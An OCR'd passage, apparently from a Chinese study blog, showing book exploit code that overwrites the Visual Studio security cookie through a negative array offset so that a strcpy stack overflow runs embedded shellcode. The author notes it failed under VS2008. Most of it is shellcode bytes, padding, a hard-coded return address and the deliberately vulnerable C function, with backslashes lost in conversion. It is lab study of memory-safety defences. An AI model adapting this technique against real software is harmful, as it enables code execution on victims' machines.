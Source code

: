 		"xC4x74x08xC1xCAx07x03xD0x46xEBxF1x3Bx54x24x1Cx75"

		"xE4x8Bx59x24x03xDDx66x8Bx3Cx7Bx8Bx59x1Cx03xDDx03"

		"x2CxBBx95x5FxABx57x61x3Dx6Ax0Ax38x1Ex75xA9x33xDB"

		"x53x68x77x65x73x74x68x66x61x69x6Cx8BxC4x53x50x50"

		"x53xFFx57xFCx53xFFx57xF8"

		"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

		"x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

		"xF4x6Fx82x90"//result of x90x90x90x90 xor EBP

		"x90x90x90x90"

		"x94xFEx12x00"//address of shellcode

		;

		void test(char * str, int i, char * src)

		{

		        char dest[200];

		        if(i<0x9995)

		        {

		                char * buf=str+i;

		                *buf=*src;

		                *(buf+1)=*(src+1);

		                *(buf+2)=*(src+2);

		                *(buf+3)=*(src+3);

		            strcpy(dest,src);

		        }

		}

		void main()

		{

		        char * str=(char *)malloc(0x10000);

		        //__asm int 3

		        test(str,0xFFFF2FB8,shellcode);       

		}

这是笔者给的代码。给的i是负数，所以s+i所指向的空间就会脱离main中申请的空间，进而有可能会指向.data区域。而Security
Cookie的校验是从.data取出值然后和EBP做一次异或，最后再和栈中的比较。

但上面的代码我一直没试验成功，不知道为什么vs2008编译后的代码在od里面并没有找到if语句，好像是直接被取消换成了另一个循环。


![](http://ww1.sinaimg.cn/large/7fb67c86gy1g1dr960tw9j20f30djdpz.jpg)